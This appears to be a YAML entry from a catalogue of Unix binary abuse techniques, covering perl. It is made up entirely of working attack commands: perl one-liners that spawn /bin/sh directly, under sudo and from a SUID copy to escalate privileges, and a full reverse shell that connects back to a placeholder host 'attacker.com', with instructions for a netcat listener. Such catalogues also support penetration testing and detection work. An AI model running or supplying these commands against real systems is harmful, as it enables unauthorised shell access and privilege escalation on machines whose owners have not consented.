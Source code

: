 ```yaml
---
functions:
  execute-interactive:
    - code: perl -e 'exec "/bin/sh";'
  sudo-enabled:
    - code: sudo perl -e 'exec "/bin/sh";'
  suid-enabled:
    - code: ./perl -e 'exec "/bin/sh";'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
---
```

